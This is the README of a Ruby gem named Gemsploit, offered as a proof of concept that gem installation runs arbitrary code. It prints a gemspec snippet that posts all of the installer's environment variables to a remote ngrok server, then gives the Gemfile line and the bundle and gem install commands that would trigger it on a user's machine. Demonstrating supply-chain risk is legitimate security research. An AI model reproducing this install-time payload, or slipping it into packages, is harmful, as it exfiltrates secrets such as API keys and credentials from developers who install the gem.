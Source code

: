 # Gemsploit

Proof of concept for ruby bundler exploit. When this gem is installed, it posts all of your ENV files to my server.

Any gem you install gets full access to your message (per the account bundler install was run as). This includes read access to `~/.ssh`, your ENV vars, etc.

## How it works

When a gem is installed, the code block in the `*.gemspec` file is executed. This gem contains a [malicious payload](https://github.com/KevinColemanInc/gemsploit/blob/master/gemsploit.gemspec#L41) to post all of your ENV variables to a remote server when the gem is installed (`$ bundle` or `$ gem install gemsploit`)

```ruby
  require "net/http"
  require "uri"

  uri = URI.parse("http://10cbe90f.ngrok.io/graphql")
  response = Net::HTTP.post_form(uri, ENV.to_h)
```

## Installation

Add this line to your application's Gemfile:

```ruby
gem 'gemsploit'
```

## Usage

Execute:

    $ bundle

Or install it yourself as:

    $ gem install gemsploit